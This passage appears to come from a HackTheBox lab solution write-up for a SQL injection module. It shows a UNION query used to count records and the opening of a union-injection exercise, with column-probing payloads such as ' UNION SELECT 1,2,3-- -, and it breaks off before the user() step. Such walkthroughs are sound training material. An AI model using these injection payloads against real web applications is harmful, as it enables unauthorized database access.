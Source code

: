 Alternatively, students can find out the number of records by just retrieving all data without the `COUNT()` function:

Code: sql

```sql
SELECT * FROM employees UNION SELECT dept_no,dept_name,3,4,5,6 FROM departments;
```

```
+--------+--------------------+--------------+
| emp_no | birth_date         | first_name   |
+--------+--------------------+--------------+
| 10001  | 1953-09-02         | Georgi       |
| 10002  | 1952-12-03         | Vivian       |
|                     <SNIP>                 |
+--------+--------------------+--------------+
663 rows in set (0.006 sec)
```

Answer: `663`

# Union Injection

## Question 1

### "Use a Union injection to get the result of 'user()'"

Students first need to detect the number of columns being selected in the query ran by the backend of the web-application. Either `ORDER BY` or `UNION` injections can be used. Using the `UNION` statement injection, students will need to execute queries until no error message is received, i.e., until the number of columns match:

Code: sql

```sql
' UNION SELECT 1-- -
```

![[HTB Solutions/CBBH/z. images/cceaaca3aede2ddf5db0dec8cfcc82c3_MD5.jpg]]

Code: sql

```sql
' UNION SELECT 1,2-- -
```

![[HTB Solutions/CBBH/z. images/1c30a0c8650280458a5d87d65ed194dc_MD5.jpg]]

Code: sql

```sql
' UNION SELECT 1,2,3-- -
```

![[HTB Solutions/CBBH/z. images/9b188716f072c11fc57ca71b9b922f8f_MD5.jpg]]
